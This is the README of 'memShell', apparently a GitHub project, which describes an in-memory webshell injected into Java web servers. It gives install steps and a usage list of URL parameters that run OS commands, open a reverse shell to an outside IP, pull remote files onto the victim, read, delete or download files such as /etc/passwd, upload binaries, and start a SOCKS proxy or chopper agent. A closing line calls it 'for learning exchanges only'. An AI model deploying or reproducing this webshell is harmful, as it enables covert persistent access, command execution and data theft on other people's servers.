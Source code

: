 # memShell
a webshell resides in the memory of java web server

# install
* unzip memShell.zip
* cd memShell
* java -jar inject.jar
# usage
* anyurl?pass_the_world=pass //show this help page.  
* anyurl?pass_the_world=pass&model=exec&cmd=whoami  //run os command.  
* anyurl?pass_the_world=pass&model=connectback&ip=8.8.8.8&port=51 //reverse a shell back to 8.8.8.8 on port 51.  
* anyurl?pass_the_world=pass&model=urldownload&url=http://xxx.com/test.pdf&path=/tmp/test.pdf //download a remote file via the victim's network directly.  
* anyurl?pass_the_world=pass&model=list[del|show]&path=/etc/passwd  //list,delete,show the specified path or file.  
* anyurl?pass_the_world=pass&model=download&path=/etc/passwd  //download the specified file on the victim's disk.  
* anyurl?pass_the_world=pass&model=upload&path=/tmp/a.elf&content=this_is_content[&type=b]   //upload a text file or a base64 encoded binary file to the victim's disk.  
* anyurl?pass_the_world=pass&model=proxy  //start a socks proxy server on the victim.  
* anyurl?pass_the_world=pass&model=chopper  //start a chopper server agent on the victim.  

**!!!It is recommended to use the POST method to submit data.** 

# note
For learning exchanges only, do not use for illegal purposes.by rebeyond.
